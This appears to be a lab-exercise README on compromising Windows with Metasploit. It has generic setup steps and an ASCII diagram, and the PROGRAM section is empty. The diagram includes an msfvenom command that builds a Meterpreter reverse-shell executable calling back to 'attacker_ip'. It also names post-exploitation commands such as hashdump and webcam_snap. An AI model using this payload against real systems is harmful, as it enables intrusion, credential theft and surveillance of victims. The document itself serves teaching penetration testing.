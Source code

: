 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:


## Architecture Diagram

```bash
## 🛠️ Metasploit Exploitation Architecture (Windows Target)


+----------------+                           +------------------+
|  🟢 Attacker    |      🔁 Reverse Shell      |   🔴 Victim (Win) |
|  (Kali Linux)  | <------------------------- |  Unpatched SMB   |
|  - msfconsole  |       (TCP 4444)          |  RDP, AV Bypass  |
|  - handler     |                           |                  |
+-------+--------+                           +--------+---------+
        |                                             |
        |  ⚙️ Payload generation using msfvenom        |
        |                                             |
        v                                             v
msfvenom -p windows/meterpreter/reverse_tcp  -->  User clicks payload  
         LHOST=attacker_ip LPORT=4444               or exploit triggers  
         -f exe > evil.exe  

        |
        |  🧲 Listener waits (multi/handler)
        v

+------------------------------------------------------------+
|     🧠 Meterpreter Session Established (shell access)       |
+------------------------------------------------------------+
| Commands: sysinfo | hashdump | migrate | webcam_snap | etc |
+------------------------------------------------------------+

```
### PROGRAM:
